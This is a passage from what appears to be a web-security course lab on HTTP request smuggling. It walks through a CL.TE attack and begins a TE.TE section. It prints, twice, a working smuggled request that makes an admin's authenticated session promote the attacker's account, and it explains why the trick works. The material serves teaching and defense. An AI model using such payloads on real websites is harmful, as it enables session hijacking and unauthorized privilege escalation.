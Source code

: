 This request is benign. The admin user simply accesses the index of the website, so no action should be taken. Let's look at the TCP stream from the reverse proxy's view:

```
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: GET / HTTP/1.1
Host: clte.htb
Cookie: sess=<admin_session_cookie>

```

The reverse proxy uses the CL header to determine the length of the first request such that it ends just after `Dummy: `. The reverse proxy sees a POST request to `/` by us and a GET request to `/` by the admin user.

Now let's look at the TCP stream from the web server's view:

```
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: GET / HTTP/1.1
Host: clte.htb
Cookie: sess=<admin_session_cookie>

```

Since the web server correctly uses the chunked encoding, it determines that the first request ends with the empty chunk. The web server thus sees a POST request to `/` by us and a POST request to `/admin.php?promote_uid=2` by the admin user. Since the admin user's request is authenticated and the session cookie sent along the request, we successfully forced the admin user to grant our user admin rights without the admin user even knowing what happened.

**Note:** We need to add a separate line with the `Dummy` keyword to our first request to "hide" the first line of the admin user's request as an HTTP header value to preserve the syntax of the request's header section.


# TE.TE

* * *

The next example of HTTP request smuggling deals with a setting where both the reverse proxy and web server support chunked encoding. However one of the two systems does not act according to the specification such that it is possible to manipulate the TE header in such a way that one of the two systems accepts it and the other one does not, instead falling back to the CL header. Thus, it is possible to obfuscate the TE header such that one of the two systems does not parse it correctly. This type of HTTP request smuggling vulnerability is called `TE.TE` vulnerability. We will discuss how to identify and exploit this type of request smuggling vulnerability.
